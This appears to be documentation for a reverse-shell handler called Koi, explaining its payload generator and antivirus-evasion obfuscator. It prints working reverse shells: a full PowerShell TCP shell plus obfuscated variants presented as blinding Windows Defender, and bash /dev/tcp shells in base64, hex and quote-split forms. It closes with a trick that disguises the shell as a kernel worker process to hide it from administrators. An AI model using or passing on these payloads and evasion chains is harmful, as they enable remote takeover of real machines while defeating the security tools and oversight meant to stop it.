







# There are two ways to make payloads

## The easy way

by just typing `payloads` followed by the interface you want to use, you will get basic payloads both for linux and windows :



Those are generic payloads, easy to use, straight forward. But sometimes you will need some more advanced payloads...

## The advanced way

Koi has a built in obfuscator tool presented as an interactive plug and play, obfuscation chainer.

!!! TIP
    you can use in directly on your terminal with the `koifuscator` command
    

By running `obfuscator`, you will be asked to chose your interface



Once done, you will get a similar menu to select either a Linux or a Windows payload.

### For Windows

The obfuscator has been made originally to bypass modern security solutions like Windows Defender (AMSI). You will be presented with `4` methods, and here I will have to go a little bit on the details.

---

#### 1. Hexadecimal Encoding (`hex`)
This method hunts down all plain text strings enclosed in single quotes within your payload and converts them into an array of hexadecimal bytes. 

* **How it works:** Instead of leaving strings in cleartext (which antivirus software can easily flag), Koi replaces them with a dynamic .NET reflection call: `[System.Text.Encoding]::UTF8.GetString()`.
* **Before:**
    ```powershell
    'http://malicious-domain.local/shell.exe'
    ```
* **After:**
    ```powershell
    ([System.Text.Encoding]::UTF8.GetString([byte[]](0x68,0x74,0x74,0x70,0x3A,0x2F,0x2F...)))
    ```

#### 2. Syntax Splitting (`syntax`)
Antivirus engines heavily monitor specific PowerShell cmdlets (like `Invoke-Expression`, `New-Object`, or `iex`). This method breaks down known dangerous keywords so they never appear consecutively in the script file.

* **How it works:** Koi randomly picks a split point inside the critical cmdlet, cuts it into two distinct string fragments, and glues them back together using the string concatenation operator (`+`) inside an execution block `&(...)`.
* **Before:**
    ```powershell
    Invoke-Expression
    ```
* **After (Randomly generated):**
    ```powershell
    &( 'Inv' + 'oke-Expression' )
    ```

#### 3. String Formatting (`format`)
This technique leverages PowerShell's built-in format operator (`-f`) to randomize the order and appearance of sensitive strings.

* **How it works:** The obfuscator chops a string into multiple pieces, scrambles them as parameters, and reconstructs them using randomly assigned index placeholders (`{0}{1}{2}`). To static analysis tools, it looks like a harmless formatting layout.
* **Before:**
    ```powershell
    'Net.WebClient'
    ```
* **After (Randomly generated):**
    ```powershell
    ('{0}{1}' -f 'Net.', 'WebClient')
    ```

#### 4. Dynamic XOR Encryption (`xor`)
The most robust layer available in the tool. It completely encrypts your payload strings dynamically.

* **How it works:** For every single string, Koi generates a random mathematical key (between 1 and 255) and an unpredictable variable name. It applies a `Bitwise XOR` (`-bxor`) operation to the bytes. When PowerShell runs the script, it decrypts the string *in-memory* on the fly. No security scanner can guess the content without emulating the execution loop.
* **Before:**
    ```powershell
    'DownloadString'
    ```
* **After (Randomly generated):**
    ```powershell
    $($k4732=142;$b=[byte[]](0xca,0x99,0x9b,0x92...);-join($b|%{[char]($_-bxor$k4732)}))
    ```

---

#### A bit of practice

You can combine these methods ! 

For example, running `syntax` then `xor` on top of your payload drastically changes the entropy and structure of the script, increasing your chances of bypassing Windows Defender.

Let's have an example.

```powershell
$client = New-Object Net.Sockets.TCPClient('172.17.0.1', 4010)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535 | %{ 0 }

while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
    $data = (New-Object Text.ASCIIEncoding).GetString($bytes, 0, $i)
    $sendback = (iex $data 2>&1 | Out-String)
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte, 0, $sendbyte.Length)
    $stream.Flush()
}

$client.Close()
```
This payload is the classic common powershell reverse shell. Defender instantly flags it.




But if we add a `format` and `syntax` chain, we get a payload such as :
```powershell
$client = &("N" + "ew-Object") Net.Sockets.TCPClient(('{0}{1}{2}' -f '172.1', '7.', '0.1'), 4010)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535 | %{ 0 }

while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
    $data = (&('N' + 'ew-Object') Text.ASCIIEncoding).GetString($bytes, 0, $i)
    $sendback = (&('i' + 'ex') $data 2>&1 | &('Out-S' + 'tring'))
    $sendback2 = $sendback + ('{0}{1}' -f 'P', 'S ') + (&("pw" + "d")).Path + ('{0}{1}' -f '>', ' ')
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte, 0, $sendbyte.Length)
    $stream.Flush()
}

$client.Close()
```

And now, defender gets blind !



On our end, Koi detects the shell and handles it like a charm.



the `xor` method is also interesting but less enjoyable to read and understand:

```powershell
$client = New-Object Net.Sockets.TCPClient(
    (
        $($k9674=49;$b=[byte[]](0x4a,0x01,0x4c,0x4a,0x00,0x4c,0x4a,0x03,0x4c);-join($b|%{[char]($_-bxor$k9674)})) -f 
        $($k2450=24;$b=[byte[]](0x29,0x2f,0x2a,0x36);-join($b|%{[char]($_-bxor$k2450)})),
        '1',
        $($k9391=217;$b=[byte[]](0xee,0xf7,0xe9,0xf7,0xe8);-join($b|%{[char]($_-bxor$k9391)}))
    ), 
    4010
)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535 | %{ 0 }

while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
    $data = (New-Object Text.ASCIIEncoding).GetString($bytes, 0, $i)
    $sendback = (iex $data 2>&1 | Out-String)
    
    $sendback2 = $sendback + (
        $($k2822=147;$b=[byte[]](0xe8,0xa3,0xee,0xe8,0xa2,0xee,0xe8,0xa1,0xee);-join($b|%{[char]($_-bxor$k2822)})) -f 
        'P',
        'S',
        ' $($k5278=129;$b=[byte[]](0xa8,0xaa,0xa9,0xf1,0xf6,0xe5,0xa8,0xaf,0xd1,0xe0,0xf5,0xe9,0xaa,0xa9);-join($b|%{[char]($_-bxor$k5278)})){0}{1}$($k3084=142;$b=[byte[]](0xae,0xa3,0xe8,0xae);-join($b|%{[char]($_-bxor$k3084)}))>',
        ' '
    )
    
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte, 0, $sendbyte.Length)
    $stream.Flush()
}

$client.Close()
```

That's pretty much all you need to know for windows.

### For Linux

Linux obfuscation is less commonly needed than Windows, but can be useful against WAFs, IDS rules, or bash history monitoring.



Like for Windows, let's explain what we have here.

---

#### 1. ANSI-C Quoting (`ansi_c`)
This method targets critical keywords (such as `bash` or `/dev/tcp`) and replaces them with their ANSI-C escaped hexadecimal representation.

* **How it works:** Bash natively supports executing strings translated via the `$'\xNN'` syntax. Security solutions looking for plain text tokens fail to match the signature.
* **Before:**
    ```bash
    bash -i >& /dev/tcp/192.168.0.104/4010 0>&1
    ```
* **After:**
    ```bash
    $'\x62\x61\x73\x68' -i >& $'\x2f\x64\x65\x76\x2f\x74\x63\x70'/192.168.0.104/4010 0>&1
    ```

#### 2. Printf Hex Encoding (`printf_hex`)
Similar to ANSI-C quoting, this technique alters standard text strings into non-human-readable hexadecimal representations.

* **How it works:** It replaces static tokens with a nested command substitution block `$(printf '\xNN...')`. At execution time, the shell evaluates `printf`, reconstructs the plain text token dynamically in memory, and triggers the command.
* **Before:**
    ```bash
    bash -i
    ```
* **After:**
    ```bash
    $(printf '\x62\x61\x73\x68') -i
    ```

#### 3. Empty Quote Injection (`quote_insert`)
A lightweight yet highly effective trick against legacy or pattern-matching static detection mechanisms.

* **How it works:** The engine randomly selects a point within key strings and injects empty single (`''`) or double (`""`) quotes. Humans and Linux interpreters resolve `ba''sh` perfectly as `bash`, but simple signature filters get completely thrown off.
* **Before:**
    ```bash
    /dev/tcp/192.168.0.104/4010
    ```
* **After (Randomly generated):**
    ```bash
    /dev/t''cp/192.168.0.104/4010
    ```

#### 4. Variable Token Splitting (`var_split`)
This technique chops vital structural terms into bits and scatters them into random shell variables before assembling them.

* **How it works:** Koi instantiates short, randomized environment variables (e.g., `_a`, `_b`), assigns fractions of the strings to them, and pieces them together sequentially via parameter expansion variables `${_a}${_b}`.
* **Before:**
    ```bash
    bash -i
    ```
* **After (Randomly generated):**
    ```bash
    _xa=bas;_mv=h;${_xa}${_mv} -i
    ```

#### 5. Base64 Full Encoding (`base64`)
Instead of editing tiny fragments of the command, this wraps and sanitizes your entire reverse shell line.

* **How it works:** The whole payload gets encoded into a clean Base64 string block. It is then fed into a Bash decoder pipe using here-strings (`<<<`), executing entirely in-memory without dropping clean artifacts.
* **Before:**
    ```bash
    bash -i >& /dev/tcp/192.168.0.104/4010 0>&1
    ```
* **After:**
    ```bash
    bash<<<$(base64 -d<<<YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTA0LzQwMTAgMD4mMQ==)
    ```

#### 6. Environment Storage Eval (`ifs`)
This method abstracts execution by containing the logic away inside variables, breaking logical flow analysis.

* **How it works:** Your payload is declared inside a temporary variable using `export`. Immediately following, the `eval` command interprets the variable content directly.
* **Before:**
    ```bash
    bash -i
    ```
* **After (Randomly generated):**
    ```bash
    export _zqd='bash -i';eval $_zqd
    ```

#### 7. Argument Vector Spoofing (`spoof_argv`)
An advanced defense evasion tactic focused on hiding your connection from system logs, monitoring scripts, `ps`, or `top`.

* **How it works:** It uses the Bash built-in `exec -a` flag. This switch allows Koi to define a custom name for the process placeholder in the process tree. The script encodes the payload and assigns it a harmless kernel process name disguise (like `[kworker/0:1]` or `[migration/0]`). Any administrator checking current running tasks will see a legitimate kernel worker instead of a malicious shell.
* **Before:**
    ```bash
    bash -i >& /dev/tcp/192.168.0.104/4010 0>&1
    ```
* **After:**
    ```bash
    exec -a '[kworker/1:2]' bash <(echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTA0LzQwMTAgMD4mMQ==|base64 -d)
    ```

## Last words

!!! Warning "Payloads can break"
    Obfuscation comes with a limit. the way Koi works is by sending probes to it's shell, waiting for a signature response, so it can determine if he's dealing with Windows or Linux.

    If your payload is obfuscated too much, the probe might not recognize the OS, in the best scenario.

    In the worst scenario, you might completely break the code and make the payload unreadable at all.

    So experiment as you wish, but keep that in mind